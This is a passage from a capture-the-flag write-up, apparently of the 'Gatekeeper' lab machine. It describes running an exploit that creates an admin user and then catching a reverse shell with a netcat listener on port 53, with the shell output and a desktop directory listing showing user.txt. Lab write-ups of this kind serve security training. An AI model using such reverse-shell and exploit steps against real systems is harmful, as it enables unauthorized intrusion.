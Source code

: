 With this as the payload, before sending it (using cme to check if user exists)

![image](https://user-images.githubusercontent.com/83407557/185809287-c95235a4-155b-4ba3-bdf0-703937559968.png)

However after running exploit

![image](https://user-images.githubusercontent.com/83407557/185809308-a63582f2-8325-4bfb-8333-222cbfc68f6e.png)

I see that now that user exists and is an admin

![image](https://user-images.githubusercontent.com/83407557/185809320-df3c5e40-96bb-4242-876d-8cca1bb818fc.png)

I now have 2 potential exploits (one that bypasses firewalls) that I can use against the machine Gatekeeper.

# Storming the gate.

I will now restart Gatekeeper and get the new ip, and update the two scripts.

First let me try the revshell

starting a listener on port 53, I get a callback:


```
└─$ sudo nc -lvnp 53
[sudo] password: 
listening on [any] 53 ...
connect to [10.6.77.38] from (UNKNOWN) [10.10.236.87] 49172
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami
whoami
gatekeeper\natbat

C:\Users\natbat\Desktop>
```

Looking at the current directory I see user.txt

```
C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,879,462,912 bytes free
```
